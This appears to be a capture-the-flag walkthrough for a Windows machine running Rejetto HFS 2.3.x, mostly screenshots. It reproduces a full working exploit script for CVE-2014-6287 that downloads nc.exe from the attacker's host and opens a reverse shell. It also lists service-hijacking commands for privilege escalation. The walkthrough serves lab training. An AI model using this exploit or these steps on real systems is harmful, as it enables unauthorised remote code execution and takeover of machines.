- ### Scanning & Enumeration
	- **nmap** results
		- Fast Scan
			- 
		- In-Depth Scan
			- 
			- 
			- {:height 285, :width 578}
		- A *Regetto HTTP file server* is served on port `8080`
			- Version - `2.3.x` - vulnerable to `CVE-2014-6287`
- ### Initial Access
	- `auto` **Metasploit**
		- 
		- 
		- 
		- 
	- `manual`
		- Use the `Python2` script from `ExploitDB` - https://www.exploit-db.com/exploits/
			-
			  ```
			  #!/usr/bin/python2
			  # Exploit Title: HttpFileServer 2.3.x Remote Command Execution
			  # Google Dork: intext:"httpfileserver 2.3"
			  # Date: 04-01-2016
			  # Remote: Yes
			  # Exploit Author: Avinash Kumar Thapa aka "-Acid"
			  # Vendor Homepage: http://rejetto.com/
			  # Software Link: http://sourceforge.net/projects/hfs/
			  # Version: 2.3.x
			  # Tested on: Windows Server 2008 , Windows 8, Windows 7
			  # CVE : CVE-2014-6287
			  # Description: You can use HFS (HTTP File Server) to send and receive files.
			  #	       It's different from classic file sharing because it uses web technology to be more compatible with today's Internet.
			  #	       It also differs from classic web servers because it's very easy to use and runs "right out-of-the box". Access your remote files, over the network. It has been successfully tested with Wine under Linux. 
			   
			  #Usage : python Exploit.py <Target IP address> <Target Port Number>
			  
			  #EDB Note: You need to be using a web server hosting netcat (http://<attackers_ip>:80/nc.exe).  
			  #          You may need to run it multiple times for success!
			  
			  
			  import urllib2
			  import sys
			  
			  try:
			  	def script_create():
			  		urllib2.urlopen("http://"+sys.argv[1]+":"+sys.argv[2]+"/?search=%00{.+"+save+".}")
			  
			  	def execute_script():
			  		urllib2.urlopen("http://"+sys.argv[1]+":"+sys.argv[2]+"/?search=%00{.+"+exe+".}")
			  
			  	def nc_run():
			  		urllib2.urlopen("http://"+sys.argv[1]+":"+sys.argv[2]+"/?search=%00{.+"+exe1+".}")
			  
			  	ip_addr = "192.168.44.128" #attack IP address
			  	local_port = "443" # attack Port number
			  	vbs = "C:\Users\Public\script.vbs|dim%20xHttp%3A%20Set%20xHttp%20%3D%20createobject(%22Microsoft.XMLHTTP%22)%0D%0Adim%20bStrm%3A%20Set%20bStrm%20%3D%20createobject(%22Adodb.Stream%22)%0D%0AxHttp.Open%20%22GET%22%2C%20%22http%3A%2F%2F"+ip_addr+"%2Fnc.exe%22%2C%20False%0D%0AxHttp.Send%0D%0A%0D%0Awith%20bStrm%0D%0A%20%20%20%20.type%20%3D%201%20%27%2F%2Fbinary%0D%0A%20%20%20%20.open%0D%0A%20%20%20%20.write%20xHttp.responseBody%0D%0A%20%20%20%20.savetofile%20%22C%3A%5CUsers%5CPublic%5Cnc.exe%22%2C%202%20%27%2F%2Foverwrite%0D%0Aend%20with"
			  	save= "save|" + vbs
			  	vbs2 = "cscript.exe%20C%3A%5CUsers%5CPublic%5Cscript.vbs"
			  	exe= "exec|"+vbs2
			  	vbs3 = "C%3A%5CUsers%5CPublic%5Cnc.exe%20-e%20cmd.exe%20"+ip_addr+"%20"+local_port
			  	exe1= "exec|"+vbs3
			  	script_create()
			  	execute_script()
			  	nc_run()
			  except:
			  	print """[.]Something went wrong..!
			  	Usage is :[.] python exploit.py <Target IP address>  <Target Port Number>
			  	Don't forgot to change the Local IP address and Port number on the script"""
			  	
			              
			  ```
			-
		- An `HTTP` server must be running on the attacker machine so that the script can `GET` the `nc.exe` binary
		  collapsed:: true
			- 
		- Using the `nc.exe` binary the script will connect back the listener
			- 
		- The script is run twice for both of the above actions to take place
			- 
	-
- ### Privilege Escalation
	- `auto` Metasploit
		- Upload `PowerUp.ps1` script to search for *privesc* vectors
			- 
		- Run `Invoke-AllChecks` to run the script
			- 
		- Generate `reverse_tcp` payload
			- 
		- Stop the vulnerable service & Upload the payload [in the execution path of the service]
			- 
		- Start the service with a running `netcat` listener to capture the shell
			- 
			- 
			- 
	- `manual`
		- For enumeration of `privesc` vectors -> use `WinPEAS`
			- 
			- 
		- On running `WinPEAS`
		  collapsed:: true
			- 
			- 
			- 
		- Stop the running service - `sc stop AdvancedSystemCareService9`
		- Get the payload executable from the our HTTP server
			- 
		- Start the service with the payload in execution path - `sc start AdvancedSystemCareService9`
			- {:height 220, :width 578}
			- 
